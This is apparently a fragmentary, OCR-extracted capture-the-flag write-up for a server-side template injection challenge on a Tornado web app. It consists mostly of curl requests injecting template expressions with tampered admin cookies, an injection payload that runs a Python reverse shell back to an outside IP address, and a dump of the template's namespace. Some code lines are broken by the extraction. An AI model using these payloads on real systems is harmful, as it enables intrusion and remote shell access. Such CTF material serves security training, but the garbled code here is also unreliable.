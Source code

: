 curl 'http://chall.csivit.com:30279/?icecream=%7B%7B7*7%7D%7D' \
  -H 'Cookie: admin="2|1:0|10:1595311474|5:admin|8:ZmFsc2U=|f9da16d0a8e775b7cf6a36e99941797928085e18adb443ce4b8be2e005ec36d4"'


  ./ssti.sh "{% import os %}{{os.system('python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"3.17.117.250\",12213));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);')}}"

  stdout,stderr = subprocess.Popen(['ls']
stdout=subprocess.PIPE
stderr=subprocess.STDOUT).communicate(); print(stdout)

curl 'http://chall.csivit.com:30279/?icecream=\{\{secret\}\}' -H 'Cookie: __cfduid=d3da3b6ef85387eeaedef3a04ead2ac541595310941; admin="2|1:0|10:1595326137|5:admin|8:dHJ1ZQ==|d3e1bbec6070128ea9e4c8056c9635ad879776de4d688568d43288f58c31e7a7"'

 {'escape': <function xhtml_escape at 0x7f4230f8af80>
'xhtml_escape': <function xhtml_escape at 0x7f4230f8af80>
'url_escape': <function url_escape at 0x7f4230f98560>
'json_encode': <function json_encode at 0x7f4230f94e60>
'squeeze': <function squeeze at 0x7f4230f98050>
'linkify': <function linkify at 0x7f4230eb9b00>
'datetime': <module 'datetime' from '/usr/local/lib/python3.7/datetime.py'>
'_tt_utf8': <function utf8 at 0x7f4230f1def0>
'_tt_string_types': (<class 'str'>
<class 'bytes'>)
'__name__': '<string>'
'__loader__': {'get_source': <function Template.generate.<locals>.<lambda> at 0x7f4230093d40>}
'chocolate': 'My fav!! 10/10 would eat again'
'vanilla': 'Vanilla is good too but could be better i give it a 7/10'
'butterscotch': 'Yuck who even likes that. 1/10'
'application': <tornado.web.Application object at 0x7f423118c750>
'secret': "Unfortunately
you aren't worthy"
'__builtins__': {'__name__': 'builtins'
'__doc__': "Built-in functions
exceptions
and other objects.\n\nNoteworthy: None is the `nil' object; Ellipsis represents `...' in slices."
'__package__': ''
'__loader__': <class '_frozen_importlib.BuiltinImporter'>
'__spec__': ModuleSpec(name='builtins'
loader=<class '_frozen_importlib.BuiltinImporter'>)
'__build_class__': <built-in function __build_class__>
'__import__': <built-in function __import__>
'abs': <built-in function abs>
'all': <built-in function all>
'any': <built-in function any>
'ascii': <built-in function ascii>
'bin': <built-in function bin>
'breakpoint': <built-in function breakpoint>
'callable': <built-in function callable>
'chr': <built-in function chr>
'compile': <built-in function compile>
'delattr': <built-in function delattr>
'dir': <built-in function dir>
'divmod': <built-in function divmod>
'eval': <built-in function eval>
'exec': <built-in function exec>
'format': <built-in function format>
'getattr': <built-in function getattr>
'globals': <built-in function globals>
'hasattr': <built-in function hasattr>
'hash': <built-in function hash>
'hex': <built-in function hex>
'id': <built-in function id>